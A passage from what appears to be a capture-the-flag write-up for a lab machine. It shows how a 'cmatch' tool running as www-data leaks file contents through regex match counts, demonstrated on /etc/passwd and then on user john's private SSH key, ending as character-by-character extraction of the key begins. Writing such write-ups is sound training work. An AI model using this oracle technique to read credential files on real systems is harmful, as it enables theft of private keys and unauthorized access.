 
    www-data@fingerprint:/$ cmatch /etc/passwd bash
    Found matches: 3
    www-data@fingerprint:/$ grep bash /etc/passwd  
    root:x:0:0:root:/root:/bin/bash
    www-data:x:33:33:www-data:/var/www:/bin/bash
    john:x:1000:1000:john:/home/john:/bin/bash



It looks to support regex too:



    www-data@fingerprint:/$ wc /etc/passwd
      32   41 1642 /etc/passwd
    www-data@fingerprint:/$ cmatch /etc/passwd '.'
    Found matches: 1610



`.` doesn't match `\n`, and there are 32 new lines in the file, and
1610 + 32 = 1642. I can match on `.` or `\n`, and get the every
character in the file:



    www-data@fingerprint:/$ cmatch /etc/passwd '(.|\n)'
    Found matches: 1642



#### Find SSH Key

The first thing I wanted to look for is john's private key. It's there:



    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa a
    Found matches: 19



I can confirm it's got the typical format:



    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----'
    Found matches: 2
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN'
    Found matches: 1



The file has 1766 characters:



    www-data@fingerprint:/dev/shm$ cmatch /home/john/.ssh/id_rsa '(.|\n)'
    Found matches: 1766



#### Manual Brute SSH Key

I can start by using `^` to look at the start of a line, and start
building a string from there one character at a time.
